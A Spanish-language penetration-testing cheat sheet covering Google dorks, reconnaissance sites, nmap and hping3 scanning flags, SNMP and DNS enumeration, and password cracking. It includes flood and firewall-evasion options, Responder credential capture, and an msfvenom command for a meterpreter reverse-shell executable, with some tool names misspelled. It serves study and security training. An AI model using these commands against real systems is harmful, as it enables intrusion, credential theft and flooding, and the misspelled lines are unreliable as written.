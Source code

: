 2.	FOOTPRINTING


#####Google Dorks

|Operador|	Descripción|	Ejemplo|
| :--- | :--- |:--- |
|“ ”	|Coincide exactamente con el texto entre comillas dobles| “Behackerpro”|
|–	|Excluye de la búsqueda el término que va después del signo “-”|	malware -ransomware
|+	Incluye el término de va después del signo “+”	|ciber +resiliencia
|"#"	|Busca un hashtag	|"#"pentesting
|OR	Devuelve resultados sobre un término u otro	|Smartphone OR tablet
| barra	|Devuelve resultados sobre un término u otro. El mismo OR	|blackhat 1 defcon
( )	Utilizado para agrupar operadores	(ballmer OR gates) windows
cache:	Muestra la página en cache	cache:www.eltiempo.co.
inurl:	Busca el termino escrito dentro de la URL de los sitios indexados	inurl:admin.php
site:	Busca todo lo relacionado con el termino escrito como sitio	site:.eltiempo.com -site:www.eltiempo.com -inurl:blogs
filetype:	Buscar el termino escrito como tipo de archivo, ejemplo: pdf, pptp, log, sql	filetype:log
intitle:	Busca el termino escrito dentro del título	intitle:mikrotik
allintitle:	Devuelve resultados que coincidan en el título con el término escrito	allintitle:”Noticias Principales de Colombia”
intext:	Busca páginas que en su texto contienen el termino escrito 	intext:owasp
allintext:	Devuelve todos los resultados que contengan todas las palabras especificadas	allintext:”asterisk digium


Information Gathering
````js
•	https://larutadelhacker.com/google-dorks-busquedas-avanzadas-en-google/ Google Dorks
•	https://dorksearch.com/ Google Dorks
•	https://citizenevidence.amnestyusa.org/ Youtube Data viewer
•	https://www.searchftps.net/ Search FTPs
•	https://www.shodan.io/ Information Gathering
•	https://github.com/JavierOlmedo/shodan-filters Filters Shodan
•	https://sitereport.netcraft.com/ Information Gathering
•	https://www.peekyou.com/ People Search
•	https://tineye.com/ People Search
•	https://yandex.com/images/ People Search
•	TheHarvester – Information Gathering
•	https://search.censys.io/ - Footprinting passive
•	https://www.zoomeye.org/ Footprinting passive
•	https://github.com/sherlock-project/sherlock People Search
•	Ping -l (preload many packets Ej: 1300) -f (flood ping) -i (time) -n (amount)
•	https://website.informer.com/ Web Site Footprinting
•	http://www.webextractor.com/ Extractor de información de paginas web
•	https://www.httrack.com/ Web Site Copier
•	https://emailtracker.website/pro  Email tracker
•	https://whois.domaintools.com/ Whois Lookup
•	nslookup - dns footprinting
•	http://www.kloth.net/services/nslookup.php DNS lookup
•	https://www.yougetsignal.com/ DNS lookup
•	dnsrecon – Tool parrot 
•	https://www.arin.net/  DNS lookup
•	tracert – Tool (-h amount salts)
````
3.	SCANNING

````js
/////Nmap
	-PE: Ping ICMP ECHO scan
	-PU: UDP ping Scan
	-PR: arp ping scan 
-PP: ICMP timestamp Ping Scan
-PM: ICMP address MASK Ping Scan
-PS: TCP SYN Ping Scan
-PA: TCP ACK Ping Scan
-PO: IP Protocol Ping Scan
-n: deshabilitar resolución de dns
-sn: deshabilitar escaneo de puertos
-Pn: Deshabilitar ping scan
-sT: TCP scan
-sS: stealth scan
-sX: Xmas scan FIN, PSH, and URG flags
-sA: ACK scan
-sU: UDP scan
-O: OS detection
-sV: versión services
-sC: scripts mas utilizados sobre los servicios encontrados
-A: escaneo agresivo, incluye -O -sV -sC –traceroute
NetworkIP/Mask – Search IPs on network
-f: fragmentación de paquetes para evadir firewalls
-g <port>: source port manipulation
-mtu: especificar cantidad máxima de transmisión de paquetes (8)
-D RND:<num> : genera N IP address
•	Angry IP Scanner – Tool Windows
•	MegaPing – Tool Windows
•	NetScanTools – Tool Windows
•	Hping3
-p: range ports
-U: URG flag
-P: Push flag
-F: fin flag
-c: count flags
--scan: scan ports
--udp: UDP scan 
--rand-source: IP random
--data: tamaño del cuerpo del paquete 
--flood: técnica de Inundación de TCP
````
•	OS Detection TTL
![image](https://user-images.githubusercontent.com/32601403/221194121-9a76af3a-d0e0-4e1e-b636-c596cb97830f.png)
 



#### default ports
| port | name|
| :--- | :--- |
| 3306 | mysql --script mysql-info mysql-enum|
| 3389 | rdp port remote port
| 25 | smtp mail
| 80 | http
| 443 | https
| 20 | ftp
| 23 | telnet
| 143 | imap
| 22 | ssh
| 53 | dns

•	Unicornscan – Scan Network
-I: Immediate scan
-v: verbose
•	Colasoft Packet Builder – network scanner
•	
4.	ENUMERATION
Nbstat – NetBIOS enumeration
Net – NetBIOS enumeration
NetBiosEnumeratior – Tool Windows
Snmp-check – SNMP Enumeration
Comando snmpget con SNMPv1:
 
snmpget -v1 -c [cadena de comunidad] [dirección IP del host] [OID para update check]
Comando snmpget con SNMPv2:
snmpget -v2c -c [cadena de comunidad] [dirección IP del host] [OID para update check]
Comando snmpget con SNMPv3 (autenticación, pero sin cifrado):
snmpget -v3 -l authNoPriv -u [nombre de usuario] -a MD5 -A [hash MD5 de la contraseña de usuario] [dirección IP del host] [OID para update check]
Comando snmpget con SNMPv3 (autenticación y cifrado):
snmpget -v3 -l authPriv -u [nombre de usuario] -a MD5 -A [contraseña de usuario] -x DES -X [contraseña DES] [dirección IP del host] [OID para update check]
Comando snmpget con SNMPv3 (sin autenticación ni cifrado):
snmpget -v3 -l noAuthNoPriv -u [nombre de usuario] [dirección IP del host] [OID para update check]

Comando snmpwalk con SNMPv1:
 
snmpwalk -v1 -c [cadena de comunidad] [dirección IP del host] [OID de la MIB de la información del sistema]
Comando snmpwalk con SNMPv2:
snmpwalk -v2c -c [cadena de comunidad] [dirección IP del host] [OID de la MIB de la información del sistema]
Comando snmpwalk con SNMPv3 (autenticación, pero sin cifrado):
snmpwalk -v3 -l authNoPriv -u [nombre de usuario] -a MD5 -A [contraseña de usuario] [dirección IP del host] [OID de la MIB de la información del sistema]
Comando snmpwalk con SNMPv3 (autenticación y cifrado):
snmpwalk -v3 -l authPriv -u [nombre de usuario] -a MD5 -A [contraseña de usuario] -x DES -X [contraseña DES] [dirección IP del host] [OID de la MIB de la información del sistema]
Comando snmpwalk con SNMPv3 (sin autenticación ni cifrado):
snmpwalk -v3 -l noAuthNoPriv -u [nombre de usuario] [dirección IP del host] [OID de la MIB de la info rmación del sistema]

•	SoftPerfect Network Scanner – Tool Windows
•	AD Explorer – LDAP Enumerator
•	Dig – DNS Enumeration
Axfr – transferencia de Zona (@NS)
Ns – name server
•	Nslookup 
Set type=<query>
•	Dnsrecon
-z DNSSEC
MX
SOA
NS
A
AAAA
SPF 
TXT
•	Global Network Inventory – Tool Windows
•	Enum4linux
5.	VULNERABILITY ANALYSIS
Nessus 
OpenVAS
Nikto – Web Vulnerability
arachni
6.	SYSTEMS HACKING

Responder -I <interface>
Jhon The Ripper
John -list=formats (Escogemos un formato)
 	John --format=RAW-md5 --wordlist=<RUTA> <HASH>

Hash-identifier <HASH> - Identificar HASH

L0phtCrack7 – Tool Windows

https://www.exploit-db.com Exploit DB
https://www.variotdbs.pl/  search exploit
https://sploitus.com/ search exploit
searchsploit – tool linux
nsfvenom -p windows/meterpeter/reverse_tcp –platform windows -a x86 -f exe LHOST=<> LPORT=<> -o salida
https://github.com/PowerShellMafia/PowerSploit - Post explotacion 
TheFatRat
 Inmunity Debugger
